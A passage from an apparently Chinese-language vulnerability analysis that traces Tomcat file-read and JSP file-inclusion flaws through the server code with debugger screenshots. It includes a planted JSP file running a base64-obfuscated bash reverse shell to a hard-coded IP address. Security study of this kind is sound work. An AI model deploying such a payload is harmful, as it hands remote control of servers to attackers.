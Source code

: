 ![image-20211113162826441](image-20211113162826441.png)

返回到StandarRoot#getResource方法，步进到cache.getResource中

![image-20211113163421942](image-20211113163421942.png)

在这里，获取到了对应web路径下的文件内容并最终返回结果，至此文件读取漏洞分析完毕。

### 文件包含漏洞

首先在webapps下面写一个文件，后缀名随意

```jsp
<%
    java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtYyAnc2ggLWkgJj4vZGV2L3RjcC8zOS4xMDUuMTc2LjM3LzEyMzM0IDA+JjEn}|{base64,-d}|{bash,-i}").getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
%>
```

然后exp里面需要修改这部分

![image-20211113165621018](image-20211113165621018.png)

为

![image-20211113165639432](image-20211113165639432.png)

这样才可以让请求被JspServlet处理。这之后进入``org.apache.jasper.servlet.JspServlet``，直接在service方法中下断点。运行exp开始调试，跳过前面的prepareRequest环节后，来到这里

![image-20211113171213281](image-20211113171213281.png)

这里和之前一样也获取了``javax.servlet.include.path_info``等属性，然后进入serviceJspFile方法

![image-20211113171440245](image-20211113171440245.png)

生成了wrapper对象，然后调用了``wrapper.service``方法，继续调试，看到JspServletWrapper的service方法中调用了getServlet()

![image-20211113171851877](image-20211113171851877.png)

继续往下就可以看到这里了，代码执行成功。

![image-20211113171934381](image-20211113171934381.png)

## 总结

恶意配置项是如何被解析的，其实还是不是很清楚。另外有必要了解一下servlet的执行过程了。
